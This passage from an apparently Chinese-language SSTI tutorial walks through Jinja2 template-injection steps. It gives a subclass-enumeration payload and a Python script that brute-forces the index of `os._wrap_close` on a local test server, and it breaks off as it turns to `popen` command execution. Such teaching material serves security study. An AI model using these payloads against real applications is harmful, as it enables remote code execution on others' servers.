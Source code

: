 第三步，拿到基类的子类，用`__subclasses__()`

```plain
name={{"".__class__.__bases__[0]. __subclasses__()}}
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, 
```

接下来的话，就要找可利用的类，寻找那些有回显的或者可以执行命令的类  
大多数利用的是`os._wrap_close`这个类，我们这里可以用一个简单脚本来寻找它对应的下标

```plain
import requests

headers = {
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36'}
for i in range(500):
    url = "http://127.0.0.1:5000/?name=\
        {{().__class__.__bases__[0].__subclasses__()["+str(i)+"]}}"
    res = requests.get(url=url, headers=headers)
    #print(res.text)
    if 'os._wrap_close' in res.text:
        print(i)
```

运行一下  
[![在这里插入图片描述](assets/1698900310-d342777ce72987f69fea43ca87a8a6ce.png)](https://storage.tttang.com/media/attachment/2022/08/14/c97e246e-5b0b-4f47-81a1-e2794f34f5c6.png)  
[![在这里插入图片描述](assets/1698900310-fd2bfefe609040250d5fc6ff3eab12e7.png)](https://storage.tttang.com/media/attachment/2022/08/14/ac6e4d25-b711-4930-9fed-bd3e3516dc7e.png)  
接下来就可以利用`os。_wrap_close`，这个类中有`popen`方法，我们去调用它  
首先  
先调用它的\_\_init\_\_方法进行初始化类
